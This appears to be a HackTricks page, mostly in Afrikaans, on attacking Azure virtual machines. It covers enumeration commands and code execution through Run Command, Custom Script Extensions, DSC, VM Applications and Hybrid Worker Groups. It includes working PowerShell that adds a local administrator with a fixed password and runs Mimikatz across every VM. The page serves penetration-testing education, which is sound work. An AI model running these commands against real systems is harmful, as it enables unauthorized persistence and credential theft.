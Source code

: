 # Az - Virtuele Masjiene & Netwerk

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese inligting

[Uit die dokumentasie:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuele masjiene is een van verskeie tipes [op aanvraag, skaalbare rekenaarbronne](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) wat Azure bied. Gewoonlik kies jy 'n virtuele masjien wanneer jy meer beheer oor die rekenaaromgewing nodig het as wat die ander keuses bied. Hierdie artikel gee jou inligting oor wat jy moet oorweeg voordat jy 'n virtuele masjien skep, hoe jy dit skep, en hoe jy dit bestuur.

## Azure Netwerk Inligting

Azure netwerke bevat **verskillende entiteite en maniere om dit te konfigureer.** Jy kan 'n kort **beskrywings,** **voorbeelde** en **enumerasie** opdragte van die verskillende Azure netwerk entiteite vind in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bied 'n veilige, volledig bestuurde RDP (Remote Desktop Protocol) en SSH (Secure Shell) toegang oplossing oor SSL deur die Azure portaal. Dit is geïntegreer binne 'n Azure Virtuele Netwerk, wat RDP en SSH konnektiwiteit na VM's met privaat IP's moontlik maak, wat die behoefte aan publieke IP's vermy. Dit maak dit 'n veiliger, meer gerieflike alternatief vir tradisionele metodes wat publieke IP-toewysings en NSG-reël konfigurasies vir VM-toegang behels. Ontwikkelaars en IT-personeel kan veilig toegang tot VM's verkry vanaf die Azure portaal met hul webblaaiers, wat die proses vir ontwikkeling en toetsomgewings stroomlyn.

Om al die Azure Bastion Gashere in jou subskripsie te lys, kan jy die volgende opdrag gebruik:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Opname
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Voer opdragte in 'n VM uit**

### **AAD Teken in VM**

Dit is moontlik om toegang te verleen aan gebruikers wat via AzureAD geverifieer is. Byvoorbeeld, om toegang te verkry tot 'n **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (dit is belangrik om die **e-pos** te gebruik wat met die azurecorp gebruik is wanneer jy probeer aanmeld) kan jy 'n fout soos hierdie kry:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Volg net **daardie instruksies** deur na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) te gaan en die kode aan te dui, gebruik die e-pos en wagwoord as geloofsbriewe en jy sal in staat wees om via SSH te verbind (as daardie gebruiker genoegsame regte het om dit te doen: `Virtual Machine Administrator Login` of `Virtual Machine User Login` rol).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Voer Aangepaste Skrip Uitbreiding Uit**

Azure virtuele masjiene (VM) uitbreidings is **klein toepassings** wat post-implementering konfigurasie en outomatisering **take** op **Azure VM's** bied. Byvoorbeeld, as 'n virtuele masjien sagteware-installasie, antivirusbeskerming of die vermoë benodig om 'n skrip binne-in dit uit te voer, kan jy 'n VM-uitbreiding gebruik.

Daarom, as jy toegang het om dit te skryf, kan jy arbitrêre kode uitvoer:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) is 'n PowerShell-gereedskap soortgelyk aan Ansible, wat gebruik word om 'n gasheer deur kode op te stel. DSC integreer met Azure, wat die opgelaai van spesifieke konfigurasie-lêers moontlik maak. Hierdie lêers moet aan 'n streng sintaksis voldoen. Opmerklik is dat die DSC-uitbreiding in Azure opdragte kan uitvoer vanaf lêers wat aan sekere opmaakvereistes voldoen, selfs al is die sintaksis nie korrek volgens DSC-standaarde nie, soos in die verskafde figuur getoon.

Die uitvoering van hierdie opdragte word gefasiliteer deur die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funksie in Az PowerShell. Die vereistes sluit 'n **.PS1** lêer met 'n gedefinieerde funksie in en die lêer moet in 'n **.zip** lêer gecomprimeer word. Alhoewel die sintaksis dalk nie akkuraat is vir DSC nie, sal die kode steeds uitgevoer word. Die uitbreiding sal egter die uitvoeringsstatus as "mislukking" merk, en geen uitvoer van die opdrag sal sigbaar wees nie weens die status wat deur die mislukkingboodskap oorgeskryf word.

### VM Application Definitions

VM Application Definitions stel die herhaalbare ontplooiing van geverifieerde toepassings op 'n Azure VM moontlik. Hierdie hulpbron ondersteun die ontplooiing en opdatering van toepassings oor VMs. Om dit op te stel, is verskeie stappe nodig, wat opdragte soos **`New-AzGalleryApplication`** en **`New-AzGalleryApplicationVersion`** in Az PowerShell insluit.

Die uitvoering van toepassings of opdragte deur hierdie metode behels die **"VMAppExtension"**, wat outomaties geïnstalleer word wanneer 'n toepassing op 'n VM toegepas word. Die uitbreiding haal die lêer van die gespesifiseerde URI en noem dit presies soos die toepassing, sonder 'n uitbreiding. Om die lêer korrek uit te voer, moet die "ManageActions" veld in die REST API-oproep gekonfigureer word om die lêer met die toepaslike uitbreiding te hernoem. Die opstelling van hierdie metode, eens voltooi, sal die struktuur vertoon soos in die verskafde figuur.

Hierdie metode van uitvoering is egter relatief stadig, wat ongeveer 3-4 minute neem om 'n toepassing of opdrag uit te voer. Die lêers wat met hierdie proses verband hou, word in spesifieke gidse gestoor (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` vir die toepassing kopie en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` vir die uitvoeringsstatus).

Albei tegnieke bied unieke maniere om opdragte uit te voer en toepassings in Azure-omgewings te ontplooi, elk met sy eie stel vereistes, stappe en oorwegings.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) is 'n kenmerk in Azure wat Runbooks, geconfigureer in 'n Automatiseringsrekening, toelaat om op 'n Azure Virtuele Masjien (VM) wat deel uitmaak van die aangewese HWG, uitgevoer te word. Hierdie uitvoering word gefasiliteer deur 'n uitbreiding wat op die VM geïnstalleer is, wat die Runbook-kode op die VM ontplooi. 'n Belangrike aspek van hierdie proses is dat die werklike akrediteer nie 'n faktor in uitvoering is nie omdat die kode met verhoogde voorregte loop, spesifiek as **SYSTEM** of root, soos in die verskafde figuur geïllustreer.

'n Belangrike detail vir diegene wat Windows 10 VMs gebruik, is die noodsaaklikheid om die PowerShell-weergawe vir die Runbook spesifiek aan te dui. Dit moet ingestel word om as PowerShell Weergawe 5.1 te loop in plaas van 7.1. Hierdie vereiste spruit voort uit die feit dat PowerShell 7.1 nie standaard op hierdie VMs geïnstalleer is nie, wat lei tot 'n mislukking in skripuitvoering as weergawe 7.1 gespesifiseer word.

Hierdie kenmerk van Azure bied 'n robuuste metode vir die outomatisering en bestuur van take oor hibriede omgewings, wat sentraliseerde bestuur en uitvoering van take op Azure VMs moontlik maak.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
